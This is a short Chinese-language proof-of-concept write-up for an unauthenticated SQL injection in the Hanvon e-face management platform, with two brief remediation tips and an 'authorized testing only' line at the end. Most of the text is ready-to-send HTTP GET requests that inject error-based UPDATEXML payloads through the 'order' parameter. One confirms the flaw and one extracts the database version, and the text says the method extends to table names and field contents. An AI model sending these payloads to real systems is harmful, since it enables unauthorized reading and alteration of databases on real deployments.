




# 汉王e脸通 queryAntisubmarineList SQL注入漏洞

## 漏洞描述

汉王e脸通综合管理平台 `/manage/antisubmarine/queryAntisubmarineList.do` 接口存在 SQL 注入漏洞。攻击者可在无需认证的情况下，通过 `order` 参数构造恶意 SQL 语句，导致数据库信息泄露、数据篡改甚至权限提升。

## 漏洞复现



```
GET /manage/antisubmarine/queryAntisubmarineList.do?recoToken=test&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT(ELT(123=123,1)))),8357)) HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:151.0) Gecko/20100101 Firefox/151.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```



响应中回显 `md5(123456)` 的计算结果即确认注入成功。可进一步构造报错注入语句提取数据库版本、表名、字段内容：

```
GET /manage/antisubmarine/queryAntisubmarineList.do?recoToken=test&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT(ELT(123=123,1)))),8357)) HTTP/1.1
```





## 漏洞修复

1. 对 `order` 等排序参数做严格白名单校验，禁止直接拼接 SQL；
2. 使用预编译语句，升级至安全版本。

> 仅限授权测试。
